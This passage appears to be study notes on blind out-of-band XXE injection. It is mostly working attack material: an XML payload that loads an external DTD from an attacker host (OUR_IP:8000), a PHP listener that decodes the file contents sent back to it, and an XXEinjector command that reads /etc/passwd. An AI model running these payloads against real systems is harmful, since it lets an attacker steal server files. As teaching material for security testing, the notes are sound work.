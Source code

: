 When the XML tries to reference the external oob parameter from our machine, it will request http://OUR_IP:8000/?content=WFhFX1NBTVBMRV9EQVRB. Finally, we can decode the WFhFX1NBTVBMRV9EQVRB string to get the content of the file. We can even write a simple PHP script that automatically detects the encoded file content, decodes it, and outputs it to the terminal:
```php
<?php
if(isset($_GET['content'])){
    error_log("\n\n" . base64_decode($_GET['content']));
}
?>
```

In the same folder as the previous file (**index.php**):
```console
zero@pio$ php -S 0.0.0.0:8000
```

Now, to initiate our attack, we can use a similar payload to the one we used in the error-based attack, and simply add <root>&content;</root>, which is needed to reference our entity and have it send the request to our machine with the file content:
```xml
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE email [ 
  <!ENTITY % remote SYSTEM "http://OUR_IP:8000/xxe.dtd">
  %remote;
  %oob;
]>
<root>&content;</root>
```

Send to the page and check the http open.

### Automated OOB Exfiltration

We can use [XXEinjector](https://github.com/enjoiz/XXEinjector) to automatiza the explotation. This tool supports includes basic XXE, CDATA source exfiltration, error-based XXE, and blind OOB XXE. Copy the Burp request without the XML data, add `XXEINJECT`:
```
<HEADERS>
...

<?xml version="1.0" encoding="UTF-8"?>
XXEINJECT
```

Now run the tool:
```console
zero@pio$ ruby XXEinjector.rb --host=127.0.0.1 --httpport=8000 --file=/tmp/xxe.req --path=/etc/passwd --oob=http --phpfilter
```

| **Flag**   | **Description**    |
|--------------- | --------------- |
| `--host=<HOST>` | Select the host for the attack |
| `--httpport=<PORT>` | Select our port for the attack | 
| `--file=<PATH>` | Request | 
| `--path=<PATH>` | File we want to read |
| `--oob=http` and `--phpfilter` | Do a OOB attack |
